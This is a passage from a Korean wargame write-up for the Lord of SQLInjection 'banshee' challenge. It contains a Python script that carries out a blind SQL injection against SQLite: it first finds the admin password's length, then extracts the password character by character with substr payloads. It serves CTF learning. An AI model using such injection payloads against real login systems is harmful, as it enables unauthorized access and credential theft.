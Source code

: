 기존 mysql에서 sqlite문법만 고려해서 페이로드를 작성해 줍니다.

## 풀이

코드를 보시면 알겠지만, 기존 mysql과 문법이 대부분 일치합니다.

```python
import requests
import string

url = 'https://los.rubiya.kr/chall/banshee_ece938c70ea2419a093bb0be9f01a7b1.php'
cookies = {'PHPSESSID' : '7jocdhdj9b00ob8q1cfc13oos6'}
params= {'pw' : None}

pw_len = 0
for i in range(1,30):
    params['pw'] = "' or id='admin' and length(pw) = {}-- ".format(i)
    response = requests.get(url,cookies=cookies,params=params)
    print(params)
    if response.text.count("login success!") == 1:
        print("length(pw) == {}".format(i))
        pw_len = i
        break
domain = string.digits + string.ascii_lowercase 

pw = ''
for i in range(1,pw_len + 1):
    for j in domain:
        params['pw'] = "' or id='admin' and substr(pw,{},1) = '{}' -- ".format(i,j)
        print(params)  
        response = requests.get(url,cookies=cookies,params=params)
        if response.text.count("login success!") == 1:
            pw += j
            print("find the pw : {}".format(pw))
            break

```

코드 실행결과 다음과 같이 pw를 획득할 수 있습니다.

![image](https://user-images.githubusercontent.com/33647663/167244237-f0cecab2-c3cb-44a1-955c-33ce0b9afd7d.png)


![image](https://user-images.githubusercontent.com/33647663/167244253-c7005f5e-bd7e-42f4-8baa-65d09cef8e53.png)

# 39번(poltergeist)
## 문제

![image](https://user-images.githubusercontent.com/33647663/167244300-1b9dc7c5-ad00-4b3f-a7fd-d120f18ab8b3.png)
